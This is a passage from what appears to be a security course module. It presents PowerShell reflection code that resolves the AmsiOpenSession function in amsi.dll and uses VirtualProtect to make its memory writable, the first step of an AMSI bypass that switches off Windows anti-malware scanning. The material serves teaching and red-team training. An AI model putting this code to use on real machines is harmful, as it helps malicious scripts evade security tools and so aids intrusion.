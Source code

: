 As discussed in a previous module, to invoke _VirtualProtect_ from PowerShell, we pass its memory address (found through _LookupFunc_) and its arguments types (found through _getDelegateType_) and combine them with _GetDelegateForFunctionPointer_.

Our code so far is shown in Listing 48:

```
function LookupFunc {

	Param ($moduleName, $functionName)

	$assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
      Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
	return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}

function getDelegateType {

	Param (
		[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
		[Parameter(Position = 1)] [Type] $delType = [Void]
	)

	$type = [AppDomain]::CurrentDomain.
    DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), 
    [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
      DefineDynamicModule('InMemoryModule', $false).
      DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', 
      [System.MulticastDelegate])

  $type.
    DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).
      SetImplementationFlags('Runtime, Managed')

  $type.
    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
      SetImplementationFlags('Runtime, Managed')

	return $type.CreateType()
}

[IntPtr]$funcAddr = LookupFunc amsi.dll AmsiOpenSession
$oldProtectionBuffer = 0
$vp=[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualProtect), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32].MakeByRefType()) ([Bool])))
$vp.Invoke($funcAddr, 3, 0x40, [ref]$oldProtectionBuffer)
```
